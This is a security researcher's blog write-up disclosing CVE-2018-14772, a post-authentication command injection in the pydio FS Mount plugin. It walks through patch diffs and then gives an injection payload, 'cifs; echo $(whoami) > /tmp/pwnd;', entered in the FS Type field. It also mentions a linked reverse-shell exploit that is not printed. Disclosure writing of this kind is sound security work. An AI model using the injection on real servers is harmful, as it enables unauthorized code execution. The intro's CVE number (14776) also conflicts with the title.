 ```yaml
---
layout: post
title:  "CVE-2018-14772"
subtitle: "exploits"
date:   2018-09-18 12:00:00 -0500
author: "coastal"
header-img: "images/site-resources/cve-2018-14772.png"
---
```


# intro

CVE-2018-14776 is a post-authentication remote code execution vulnerability that I found in the [pydio](https://pydio.com/) filesharing platform. Descriptions of the vulnerability can be found in Mitre's CVE database [here](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-14772) or at NIST's National Vulnerability Database [here](https://nvd.nist.gov/vuln/detail/CVE-2018-14772). 

### writeup

I actually found this vulnerability while investigating [`CVE-2015-3431`](https://www.cvedetails.com/cve/CVE-2015-3431/), a 10-score CVE in the pydio (formerly Ajaxexplorer) file-sharing platform. At the time, a former employer was using a vulnerable version of this application, which piqued my interest. I wanted to see what the vulnerability actually looked like and try to write my own version of the exploit. The first thing that I did was check the changelog for the patched version (6.0.7). The only reference to the vulnerability was in the release note

> We are releasing today a security patch for v6. Vulnerabilities were reported by Lane Thames and are registered under CVE-2015-3431 and CVE-2015-3432.

In the smaller bugfixes some juicier bits related to user authentication were noted:

> * AuthService test userExist and create new ([details](http://github.com/pydio/pydio-core/commit/9a9fa68b90a491e26efd36580ea8374bb6b2e9bb))
> * Check userExist to create new user for new sharing ([details](https://github.com/pydio/pydio-core/commit/b81e3d941a8ca92523a398b6f2a30542e99a87d1))

While these may be related to the "no authentication required" part of the CVE, I was more interested in discovering the avenue of code execution. With the CVE description and patchnotes being very uninformative, I moved on to diffing the pre-disclosure stable release with the patched release. Here is one of the diffs that caught my eye:

```
diff -Naur pydio-core-6.0.6/plugins/meta.mount/class.FilesystemMounter.php pydio-core-6.0.7/plugins/meta.mount/class.FilesystemMounter.php
--- pydio-core-6.0.6/plugins/meta.mount/class.FilesystemMounter.php	2015-04-09 04:11:19.000000000 -0400
+++ pydio-core-6.0.7/plugins/meta.mount/class.FilesystemMounter.php	2015-05-06 03:46:44.000000000 -0400
@@ -134,7 +134,7 @@
         $UNC_PATH = $this->getOption("UNC_PATH", $user, $password, false);
         $MOUNT_OPTIONS = $this->getOption("MOUNT_OPTIONS", $user, $password);
 
-        $cmd = ($MOUNT_SUDO? "sudo ": ""). "mount -t " .$MOUNT_TYPE. (empty( $MOUNT_OPTIONS )? " " : " -o " .$MOUNT_OPTIONS. " " ) .$UNC_PATH. " " .$MOUNT_POINT;
+        $cmd = ($MOUNT_SUDO? "sudo ": ""). "mount -t " .$MOUNT_TYPE. (empty( $MOUNT_OPTIONS )? " " : " -o " .escapeshellarg($MOUNT_OPTIONS). " " ) .escapeshellarg($UNC_PATH). " " .escapeshellarg($MOUNT_POINT);
         $res = null;
         if($this->getOption("MOUNT_ENV_PASSWD") == true){
             putenv("PASSWD=$password");
@@ -177,7 +177,7 @@
         $MOUNT_POINT = $this->getOption("MOUNT_POINT", $user, $password);
         $MOUNT_SUDO = $this->options["MOUNT_SUDO"];
 
-        system(($MOUNT_SUDO?"sudo":"")." umount ".$MOUNT_POINT, $res);
+        system(($MOUNT_SUDO?"sudo":"")." umount ".escapeshellarg($MOUNT_POINT), $res);
```

Hmm...the patch diffs contain multiple variables that are now wrapped in `escapeshellarg()`? That sounds like command injection to me! Now here is where I stumbled from CVE-2015-3431 into CVE-2018-14772. Here was the most up to date code in the same file at the time of discovery:

```
$cmd = $udevil."mount -t " .$MOUNT_TYPE. (empty( $MOUNT_OPTIONS )? " " : " -o " .escapeshellarg($MOUNT_OPTIONS). " " ) .escapeshellarg($UNC_PATH). " " .escapeshellarg($MOUNT_POINT);
```

Whoops, `$MOUNT_TYPE` still isn't escaped! Looks like we might be able to perform a command injection in a similar fashion to the old exploit. However, this file isn't an endpoint that can be reached with a REST call with some paramaters. Instead it is logic triggered on an application state change. So in order to exploit this issue I had to dive a little further into what function the `FilesystemMounter.php` file serves in the `meta.mount` plugin.

The header for the `FilesystemMounter.php` file states:

```
/**
 * Dynamically mount a remote folder when switching to the repository
 * @package AjaXplorer_Plugins
 * @subpackage Meta
 *
 */
```

That makes sense give the code snippets we saw before. So now we have to determine how to activate this plugin. To do this, I installed `pydio` in a local VM and configured it. I wrote an `ansible` role that I can share at some point (in a private repo at the moment) to take care of this deployment. 

The plugin turned out to be called `FS Mount`, and can be configured by going to `Settings->Workspaces->(workspace)->Add a feature->FS Mount` in the settings menu of the administrative portal. 

<img src="{{ site.baseurl }}/images/exploits/cve-2018-14772/plugin-location.png">

In browsing the plugin options, we can see a field called `FS Type`. 

<img src="{{ site.baseurl }}/images/exploits/cve-2018-14772/plugin-configuration.png">

This seems pretty similar to `$MOUNT_TYPE` no? Let's see what happens when we inject a command into that field, save the plugin to the workspace, and try to access the workspace.

<img src="{{ site.baseurl }}/images/exploits/cve-2018-14772/plugin-injection.png">

Now, we browse to the workspace

<img src="{{ site.baseurl }}/images/exploits/cve-2018-14772/injection-bork.png">

Well, that certainly seems promising! However, for testing, I found it very cumbersome to have to reload the VM from my pre-injection snapshot every time I injected a payload. So to bypass this, I found the location in the local `mysql` database where the plugin configuration data is stored. 

```
$ mysql -u pydio -p
mysql> use pydio;
mysql> select val from ajxp_repo_options where uuid = "183698c607b1f3b9816a0c9306e6ccc8" and name = "META_SOURCES";

$phpserial$a:6:{s:16:"metastore.serial";a:2:{s:22:"METADATA_FILE_LOCATION";s:9:"infolders";s:13:"METADATA_FILE";s:10:".ajxp_meta";}s:15:"meta.filehasher";a:0:{}s:10:"meta.mount";a:8:{s:15:"FILESYSTEM_TYPE";s:34:"cifs; echo $(whoami) > /tmp/pwnd; ";s:13:"MOUNT_OPTIONS";s:69:"user=AJXP_USER,pass=AJXP_PASS,uid=AJXP_SERVER_UID,gid=AJXP_SERVER_GID";s:20:"MOUNT_RESULT_SUCCESS";s:2:"32";s:15:"USE_AUTH_STREAM";s:4:"true";s:8:"UNC_PATH";s:19:"127.0.0.1/somewhere";s:11:"MOUNT_POINT";s:14:"/tmp/somewhere";s:4:"USER";s:5:"admin";s:4:"PASS";s:8:"password";}s:13:"meta.syncable";a:3:{s:13:"REPO_SYNCABLE";s:4:"true";s:23:"OBSERVE_STORAGE_CHANGES";s:5:"false";s:21:"OBSERVE_STORAGE_EVERY";s:1:"5";}s:10:"meta.watch";a:0:{}s:12:"index.lucene";a:1:{s:13:"index_content";s:5:"false";}}
```

Pre-injection, my `META_SOURCES` data for my repository of interest (`183698c607b1f3b9816a0c9306e6ccc8`) looked like so:

```
$phpserial$a:5:{s:16:"metastore.serial";a:2:{s:22:"METADATA_FILE_LOCATION";s:9:"infolders";s:13:"METADATA_FILE";s:10:".ajxp_meta";}s:10:"meta.watch";a:0:{}s:13:"meta.syncable";a:3:{s:13:"REPO_SYNCABLE";s:4:"true";s:23:"OBSERVE_STORAGE_CHANGES";s:5:"false";s:21:"OBSERVE_STORAGE_EVERY";s:1:"5";}s:15:"meta.filehasher";a:0:{}s:12:"index.lucene";a:1:{s:13:"index_content";s:5:"false";}}
```

When I wanted to try another injection or payload, I would have to restart the VM as the borked config permanently corrupted the workspace. Instead of having to reload the VM, we can overwrite the corrupted value to the original value:

```
mysql> update ajxp_repo_options set val = '$phpserial$a:5:{s:16:"metastore.serial";a:2:{s:22:"METADATA_FILE_LOCATION";s:9:"infolders";s:13:"METADATA_FILE";s:10:".ajxp_meta";}s:10:"meta.watch";a:0:{}s:13:"meta.syncable";a:3:{s:13:"REPO_SYNCABLE";s:4:"true";s:23:"OBSERVE_STORAGE_CHANGES";s:5:"false";s:21:"OBSERVE_STORAGE_EVERY";s:1:"5";}s:15:"meta.filehasher";a:0:{}s:12:"index.lucene";a:1:{s:13:"index_content";s:5:"false";}}' where uuid = "183698c607b1f3b9816a0c9306e6ccc8" and name = "META_SOURCES";
```

Then follow up by restarting apache

```
sudo service apache2 restart
```

and you are ready to try again! I worked out a nice little payload that let me confirm arbitrary injection:

```
cifs; echo $(whoami) > /tmp/pwnd; 
```

verifying this injection post-trigger is pretty straightforward

<img src="{{ site.baseurl }}/images/exploits/cve-2018-14772/successful-injection.png">

And there we have it! Successful arbitrary command execution.

### impact

The vulnerability is present in all versions of `pydio` between 4.2.1 (Jul 23, 2012) to 8.2.1 (October, 2018). The exploit requires administrative credentials as the user needs to have the ability to add a plugin to a workspace. I didn't like having to click around to exploit this vulnerability, so I wrote a one-shot exploit for it that will throw you a reverse shell. The exploit script has some nifty functionality like auto-enumeration of potentially exploitable workspaces, and allows you to throw arbitrary payloads at the vulnerable server. Default is an `nc` reverse shell

<img src="{{ site.baseurl }}/images/exploits/cve-2018-14772/rev-shell.png">

### addendum

This vulnerability was patched in the [8.2.2](https://github.com/pydio/pydio-core/releases/tag/pydio-core-8.2.2) release of `pydio`. You can find the PoC exploit for this vulnerability [here](https://github.com/spencerdodd/CVE-2018-14772).

```
- coastal
```


